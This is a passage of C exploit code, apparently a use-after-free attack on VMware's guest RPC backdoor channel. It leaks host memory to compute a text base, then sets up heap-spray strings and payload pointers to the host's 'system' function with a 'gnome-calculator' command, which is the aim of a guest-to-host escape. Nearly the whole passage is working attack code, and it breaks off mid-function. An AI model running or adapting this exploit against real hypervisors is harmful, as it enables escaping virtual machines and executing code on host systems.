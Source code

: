 ```

    printf("Trying to reuse the buffer as a struct, which we can leak..\n");
    getchar();
    run_cmd(s5);
    printf("Should be done.Check the buffer\n");
    getchar();

    //Now the output buffer of chan[1] is used as a struct, which contains many addresses
    channel_recv_reply_len(chan[1].cookie1,chan[1].cookie2,chan[1].num,&len,&res);
    if(!res){
        printf("fail to recv data len\n");
        return;
    }


    data = malloc(len+0x10);
    memset(data,0,len+0x10);
    for(i=0;i<len+0x10;i+=4){
        channel_recv_data(chan[1].cookie1,chan[1].cookie2,chan[1].num,i,data,&res);
    }
    printf("recv data:\n");
    for(i=0;i<len;i+=8){
        printf("recv data:%lx\n",*(long long *)&data[i]);
    }
    text = (*(uint64_t *)data)-0xf818d0;
    channel_recv_finish(chan[0].cookie1,chan[0].cookie2,chan[0].num,&res);
    printf("Leak Success\n");
}

void exploit(){
    //the exploit step is almost the same as the leak ones
    struct channel chan[10];
    int res=0;
    int len,i;
    char *data;
    char *s1 = "info-set guestinfo.b BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB";
    char *s2 = "info-get guestinfo.b";
    char *s3 = "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB";
    char *s4 = "gnome-calculator\x00";
    uint64_t pay1 =text+0xFE95B8; 
    uint64_t pay2 =text+0xECFE0; //system
    uint64_t pay3 =text+0xFE95C8;
    char *pay4 = "gnome-calculator\x00";
    //run_cmd(s1);
    channel_open(&chan[0].cookie1,&chan[0].cookie2,&chan[0].num,&res);
    if(!res){
        printf("fail to open channel!\n");
        return;
    }
    channel_set_len(chan[0].cookie1,chan[0].cookie2,chan[0].num,strlen(s1),&res);
    if(!res){
        printf("fail to set len\n");
        return;
    }
    channel_send_data(chan[0].cookie1,chan[0].cookie2,chan[0].num,strlen(s1),s1,&res);
    channel_recv_reply_len(chan[0].cookie1,chan[0].cookie2,chan[0].num,&len,&res);
    if(!res){
```
